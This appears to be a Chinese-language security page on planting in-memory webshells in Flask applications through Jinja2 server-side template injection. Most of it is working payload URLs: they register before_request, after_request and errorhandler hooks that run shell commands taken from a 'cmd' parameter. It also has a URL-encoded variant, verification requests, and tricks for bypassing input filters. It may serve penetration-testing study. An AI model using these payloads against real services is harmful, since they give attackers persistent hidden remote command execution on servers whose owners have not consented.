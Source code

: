### 通过模板注入植入内存马

以下是几种通过模板注入植入内存马的方法：

#### 1. 植入before_request内存马

```
http://127.0.0.1:5000/test?name={{request.__class__.__init__.__globals__['__builtins__']['eval']("app.before_request_funcs.setdefault(None, []).append(lambda :__import__('flask').make_response(__import__('os').popen(request.args.get('cmd')).read()) if request.args.get('cmd') else None)")}}
```

URL编码版本：
```
http://127.0.0.1:5000/test?name=%7B%7Brequest.__class__.__init__.__globals__%5B%27__builtins__%27%5D%5B%27eval%27%5D(%22app.before_request_funcs.setdefault(None%2C%20%5B%5D).append(lambda%20%3A__import__(%27flask%27).make_response(__import__(%27os%27).popen(request.args.get(%27cmd%27)).read())%20if%20request.args.get(%27cmd%27)%20else%20None)%22)%7D%7D
```

验证内存马是否成功植入：
```
http://127.0.0.1:5000/?cmd=whoami
```

#### 2. 植入after_request内存马

```
http://127.0.0.1:5000/test?name={{request.__class__.__init__.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: __import__('flask').make_response(__import__('os').popen(request.args.get('cmd')).read()) if request.args.get('cmd') else resp)")}}
```

#### 3. 植入errorhandler内存马

```
http://127.0.0.1:5000/test?name={{request.__class__.__init__.__globals__['__builtins__']['exec']("global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('cmd')).read()")}}
```

验证errorhandler内存马：
```
http://127.0.0.1:5000/not_exist_path?cmd=id
```

### 绕过技巧

在面临过滤和防护的环境中，可以使用以下技巧：

1. **使用`request.args`动态获取参数**
```
http://127.0.0.1:5000/test?name={{request.__class__.__init__.__globals__[request.args.a][request.args.b](request.args.c).popen(request.args.d).read()}}&a=__builtins__&b=__import__&c=os&d=whoami
```

2. **使用`attr`过滤器代替点号**
```
http://127.0.0.1:5000/test?name={{request|attr('__class__')|attr('__init__')|attr('__globals__')}}
```
